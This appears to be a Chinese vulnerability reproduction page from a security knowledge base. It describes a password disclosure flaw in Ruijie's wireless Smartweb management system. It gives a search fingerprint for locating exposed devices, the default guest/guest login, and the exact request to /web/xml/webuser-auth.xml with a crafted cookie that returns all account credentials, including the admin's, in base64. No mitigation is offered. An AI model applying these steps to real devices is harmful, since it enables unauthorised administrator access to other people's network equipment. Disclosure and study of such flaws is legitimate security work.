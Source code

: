 # 锐捷 Smartweb管理系统 密码信息泄露漏洞

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

<a-checkbox checked>锐捷网络股份有限公司 无线smartweb管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="无线smartWeb--登录页面"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ruijie-15.png)



默认存在 guest账户，账号密码为 `guest/guest`



其中登录的过程中搜索admin的数据后发现请求了一个文件 `/web/xml/webuser-auth.xml`，而且响应中包含了 admin密码的base64加密



![img](../../../.vuepress/public/img/ruijie-16.png)



解密就可以获得 admin管理员的密码，尝试直接请求



```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```



![img](../../../.vuepress/public/img/ruijie-17.png)



直接获得所有的账户的等级标志和base64加密的账号密码